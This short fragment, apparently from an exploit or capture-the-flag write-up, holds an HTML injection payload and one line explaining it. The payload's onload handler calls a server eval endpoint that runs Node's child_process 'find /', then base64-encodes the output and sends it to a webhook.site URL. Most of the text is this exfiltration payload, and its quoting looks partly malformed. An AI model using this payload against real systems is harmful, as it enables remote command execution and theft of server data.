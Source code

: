 1. With **webhook**
```html
<embed src=1 onload="fetch(./?eval=require( 'child_process' ).spawnSync( 'find', ['/']).stdout.toString()).then(a=>a.text()).then(a=>fetch('https://webhook.site/ae0bd822-b34b-4e87-aa65-3c22bc4c9999?c=%27+btoa(a)))%22%3E
```
*Command will exec a find command in location `/` after that send all that to plain text to webhook in URL `https://webhook.site/...`*

